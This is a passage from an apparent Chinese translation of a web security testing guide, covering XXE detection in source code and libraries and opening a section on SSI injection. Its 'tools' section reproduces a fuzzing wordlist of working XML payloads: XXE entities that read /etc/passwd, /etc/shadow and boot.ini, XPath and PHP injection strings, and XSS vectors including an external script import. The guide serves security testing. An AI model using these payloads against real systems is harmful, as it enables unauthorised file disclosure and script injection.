 检查源代码是否将docType，外部DTD和外部参数实体设置为禁止使用。具体可查看[XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)。

此外，版本低于3.10.1的Java POI officer reader 可能存在XXE漏洞。

POI库的版本可以从JAR文件名中识别，例如：poi-3.8.jar，poi-ooxml-3.8.jar

下列源代码关键词可用于C语言下的XXE漏洞发现：
```libxml2: xmlCtxtReadMemory,xmlCtxtUseOptions,xmlParseInNodeContext,xmlReadDoc,xmlReadFd,xmlReadFile ,xmlReadIO,xmlReadMemory, xmlCtxtReadDoc ,xmlCtxtReadFd,xmlCtxtReadFile,xmlCtxtReadIO```

```libxerces-c: XercesDOMParser, SAXParser, SAX2XMLReader```

### tools

[xml injection fuzz strings](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/XML.txt),内容如下：

```xml
count(/child::node())
x' or name()='username' or 'x'='y
<name>','')); phpinfo(); exit;/*</name>
<![CDATA[<script>var n=0;while(true){n++;}</script>]]>
<![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/passwd">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/shadow">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////dev/random">]><foo>&xxe;</foo>
<xml ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:alert('XSS');">]]>
<xml ID="xss"><I><B>&lt;IMG SRC="javascript:alert('XSS')"&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<xml SRC="xsstest.xml" ID=I></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<HTML xmlns:xss><?import namespace="xss" implementation="http://ha.ckers.org/xss.htc"><xss:xss>XSS</xss:xss></HTML>
© 2020 GitHub, Inc.
```
### 参考

- XML Injection
- Gregory Steuck, “XXE (Xml eXternal Entity) attack”
- OWASP XXE Prevention Cheat Sheet

##  SSI注入测试 Testing for SSI Injection

### 摘要
Web服务器允许开发人员常在静态HTML页面内添加少量动态代码，这一特性体现在 Server-Side Includes （SSI）功能。在SSI注入测试中，我们测试是否有可能将由SSI机制解释的数据注入到应用程序中。成功利用此漏洞，攻击者可以将代码注入HTML页面，甚至执行远程代码执行。

